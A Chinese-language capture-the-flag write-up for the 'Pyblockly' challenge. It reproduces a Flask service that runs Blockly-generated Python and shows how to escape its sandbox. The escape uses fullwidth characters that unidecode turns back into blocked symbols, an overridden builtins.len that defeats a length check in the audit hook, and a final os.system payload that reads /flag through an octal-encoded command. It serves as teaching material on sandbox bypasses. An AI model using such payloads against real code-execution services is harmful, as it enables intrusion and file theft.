

# Pyblockly题解
## 考点
* hook审计绕过
* unidecode全角字符绕过
* SSTI变形
## 分析
首先打开题目就是积木块拼接执行的形式，有`print`、`+`、`""`(字符串)等样式，那么可以确定是python题目，并且初步感觉有点SSTI的味道了(试了试，不能直接出)。

然后下载附件源码，如下：
```python
from flask import Flask, request, jsonify
import re
import unidecode
import string
import ast
import sys
import os
import subprocess
import importlib.util
import json

app = Flask(__name__)
app.config['JSON_AS_ASCII'] = False

blacklist_pattern = r"[!\"#$%&'()*+,-./:;<=>?@[\\\]^_`{|}~]"

def module_exists(module_name):

    spec = importlib.util.find_spec(module_name)
    if spec is None:
        return False

    if module_name in sys.builtin_module_names:
        return True
    
    if spec.origin:
        std_lib_path = os.path.dirname(os.__file__)
        
        if spec.origin.startswith(std_lib_path) and not spec.origin.startswith(os.getcwd()):
            return True
    return False

def verify_secure(m):
    for node in ast.walk(m):
        match type(node):
            case ast.Import:  
                print("ERROR: Banned module ")
                return False
            case ast.ImportFrom: 
                print(f"ERROR: Banned module {node.module}")
                return False
    return True

# 黑名单过滤
def check_for_blacklisted_symbols(input_text):
    if re.search(blacklist_pattern, input_text):
        return True
    else:
        return False


def block_to_python(block):
    block_type = block['type']
    code = ''
    
    if block_type == 'print':
        text_block = block['inputs']['TEXT']['block']
        text = block_to_python(text_block)  
        code = f"print({text})"
           
    elif block_type == 'math_number':
        
        if str(block['fields']['NUM']).isdigit():      
            code =  int(block['fields']['NUM']) 
        else:
            code = ''
    
    # 可利用点, 其他block_type基本上是固定好了的
    elif block_type == 'text':
        if check_for_blacklisted_symbols(block['fields']['TEXT']):
            code = ''
        else:
        
            code =  "'" + unidecode.unidecode(block['fields']['TEXT']) + "'"
    elif block_type == 'max':
        
        a_block = block['inputs']['A']['block']
        b_block = block['inputs']['B']['block']
        a = block_to_python(a_block)  
        b = block_to_python(b_block)
        code =  f"max({a}, {b})"

    elif block_type == 'min':
        a_block = block['inputs']['A']['block']
        b_block = block['inputs']['B']['block']
        a = block_to_python(a_block)
        b = block_to_python(b_block)
        code =  f"min({a}, {b})"

    if 'next' in block:
        
        block = block['next']['block']
        
        code +="\n" + block_to_python(block)+ "\n"
    else:
        return code 
    return code

def json_to_python(blockly_data):
    block = blockly_data['blocks']['blocks'][0]

    python_code = ""
    python_code += block_to_python(block) + "\n"

        
    return python_code

def do(source_code):
    # 这个地方是个重点 在执行过程中遇到某些事件(如import 某个 module)时就会触发这个 audit hook 函数, 并把对应事件类型和参数传给该audit hook 函数.
    hook_code = '''
def my_audit_hook(event_name, arg):
    blacklist = ["popen", "input", "eval", "exec", "compile", "memoryview"]
    if len(event_name) > 4:
        raise RuntimeError("Too Long!")
    for bad in blacklist:
        if bad in event_name:
            raise RuntimeError("No!")

__import__('sys').addaudithook(my_audit_hook)

'''
    print(source_code)
    code = hook_code + source_code
    tree = compile(source_code, "run.py", 'exec', flags=ast.PyCF_ONLY_AST)
    try:
        if verify_secure(tree):  
            with open("run.py", 'w') as f:
                f.write(code)  
            # 我们传入的source_code与hook_code拼接, 然后写入run.py，然后执行    因此这就是可利用点 
            result = subprocess.run(['python', 'run.py'], stdout=subprocess.PIPE, timeout=5).stdout.decode("utf-8")
            os.remove('run.py')
            return result
        else:
            return "Execution aborted due to security concerns."
    except:
        os.remove('run.py')
        return "Timeout!"

@app.route('/')
def index():
    return app.send_static_file('index.html')

@app.route('/blockly_json', methods=['POST'])
def blockly_json():
    blockly_data = request.get_data()
    print(type(blockly_data))
    blockly_data = json.loads(blockly_data.decode('utf-8'))
    print(blockly_data)
    try:
        python_code = json_to_python(blockly_data)
        return do(python_code)
    except Exception as e:
        return jsonify({"error": "Error generating Python code", "details": str(e)})
    
if __name__ == '__main__':
    app.run(host = '0.0.0.0')
```
`module_exists`用于检查`module_name`是否存在，`verify_secure`用于检查m的抽象语法树是否包含被禁的模块。
`check_for_blacklisted_symbols`用于检查输入是否包含黑名单中的。

```
def block_to_python(block):
    block_type = block['type']
    code = ''
    
    if block_type == 'print':
        text_block = block['inputs']['TEXT']['block']
        text = block_to_python(text_block)  
        code = f"print({text})"
           
    elif block_type == 'math_number':
        
        if str(block['fields']['NUM']).isdigit():      
            code =  int(block['fields']['NUM']) 
        else:
            code = ''
    
    # 可利用点, 其他block_type基本上是固定好了的
    elif block_type == 'text':
        if check_for_blacklisted_symbols(block['fields']['TEXT']):
            code = ''
        else:
        
            code =  "'" + unidecode.unidecode(block['fields']['TEXT']) + "'"
    elif block_type == 'max':
        
        a_block = block['inputs']['A']['block']
        b_block = block['inputs']['B']['block']
        a = block_to_python(a_block)  
        b = block_to_python(b_block)
        code =  f"max({a}, {b})"

    elif block_type == 'min':
        a_block = block['inputs']['A']['block']
        b_block = block['inputs']['B']['block']
        a = block_to_python(a_block)
        b = block_to_python(b_block)
        code =  f"min({a}, {b})"

    if 'next' in block:
        
        block = block['next']['block']
        
        code +="\n" + block_to_python(block)+ "\n"
    else:
        return code 
    return code
```
上述`block_to_python`用于将blockly的json数据转化为python代码，其中分不同类型进行处理，前面几个都没什么特别的。

重点看一下text的处理，其中包含一个`unidecode.unidecode`方法，用于处理特殊文本，例如下面这段代码，将全角字符转化为了半角字符，考虑到有一个`blacklist_pattern`的半角字符过滤，应该可以利用这个绕过：
```python
from unidecode import unidecode

text = '。，“、”'
print(unidecode(text))

# output: .,","
```

下面这段代码调用block_to_python进行字符串的一个简单拼接。
```python
def json_to_python(blockly_data):
    block = blockly_data['blocks']['blocks'][0]

    python_code = ""
    python_code += block_to_python(block) + "\n"
  
    return python_code
```

`do`方法就是重点了。首先`hook_code`是一个自定义hook审计函数，配合`__import__('sys').addaudithook()`在执行过程中遇到某些事件(如import 某个 module)时触发审计函数进行检测，其中自定义的`my_audit_hook`用于检测事件名称长度是否大于4，以及是否包含黑名单中的模块。
然后下面的部分就是将我们传入的source_code与hook_code拼接，然后编译并检测语法树是否合法，然后写入run.py，然后执行。
```python
def do(source_code):
    hook_code = '''
def my_audit_hook(event_name, arg):
    blacklist = ["popen", "input", "eval", "exec", "compile", "memoryview"]
    if len(event_name) > 4:
        raise RuntimeError("Too Long!")
    for bad in blacklist:
        if bad in event_name:
            raise RuntimeError("No!")

__import__('sys').addaudithook(my_audit_hook)

'''
    print(source_code)
    code = hook_code + source_code
    tree = compile(source_code, "run.py", 'exec', flags=ast.PyCF_ONLY_AST)
    try:
        if verify_secure(tree):  
            with open("run.py", 'w') as f:
                f.write(code)  
            result = subprocess.run(['python', 'run.py'], stdout=subprocess.PIPE, timeout=5).stdout.decode("utf-8")
            os.remove('run.py')
            return result
        else:
            return "Execution aborted due to security concerns."
    except:
        os.remove('run.py')
        return "Timeout!"
```

> 因此考虑两个绕过：
>* 触发审计时对长度的限制。
>* 通过`unidecode.unidecode`绕过`blacklist_pattern`的半角字符过滤。这个可以用全角字符来绕过.

## 解答
首先对于长度限制，可以使用builtins修改len函数，使其为一个固定值即可绕过；对于半角字符，可以用全角字符来绕过(因为有一个unidecode)：

`__import__("builtins")。len=lambda x:0`

同时blacklist = ["popen", "input", "eval", "exec", "compile", "memoryview"]并没有把system给ban掉，因此可以考虑利用system命令来搞事情，最后payload如下：
`；＿＿import＿＿（”builtins”）。len＝lambda a：1；’‘；＿＿import＿＿（”os”）。system（”＄（printf ‘＼144＼144＼40＼151＼146＼75＼57＼146＼154＼141＼147’）； ”）；`
